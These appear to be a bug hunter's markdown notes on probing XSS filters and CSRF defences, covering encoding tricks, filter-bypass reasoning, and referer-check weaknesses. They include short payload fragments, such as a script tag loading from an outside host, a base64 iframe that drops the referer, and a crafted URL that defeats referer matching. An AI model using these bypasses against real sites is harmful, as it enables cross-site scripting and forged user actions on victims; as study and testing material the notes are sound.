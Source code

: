 ### Testing for XSS and filtering
1. testing different encoding - weird behavior?
- does single encoding or double encoding do anything?
    - encoding changes once sent may be finding
    - encoding is always defaulted to the same might be nothing
- Ghetto Bypass (encodings to try) - [here](https://d3adend.org/xss/ghettoBypass)
2. Reverse engineering the dev's thoughts 
    - why did they create this and where else could this filter be:
        - filtering full tags but not filtering `<script`
            - bypass: `<script src=//mysite.com?c=`
                - appending tag to parameter value within the html
        - blacklist of bad html tags?
            - maybe forgot to add `<svg>`
        - how does website handle encodings, file uploads
    - Testing for XSS flow:
        - how are non malicious html tags handled 
            - eg: `<h1>`
        - Incomplete tags?
            - eg: `<iframe src=//url.com/c=`
        - encodings?
        - blacklist?
#### XSS filter bypass 
[here](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)

### POC
alerts and such blocked?  
simple: `console.log("exploit completed)` works

## CSRF
force user to do action on target website from your website (usually vial HTML form ) 
- eg: `<form action="/login" method="POST">`

Places to start:
- areas where should be secure
    - eg: updating account info

What did it do?:
- reflect changes but with SCRF error?
- info shown?

If an area has different protections? Why
- Different team
- old codebase
- different peram name

Common approach to security:
- devs check if referer is their website
    - if so execute
    - if not disreguard
- Issue - sometimes checks only if referer header is found if not, no checks are done
- Gets blank referer:
    - `<meta name="referrer" content="no-referrer" />`
    `<iframe src=”data:text/html;base64,form_code_here”>`
- Sometimes only check if domain is found in the referer
    - creating domain on personal site and visting may bypass
        - `https://www.yoursite.com/https://www.theirsite.com/`
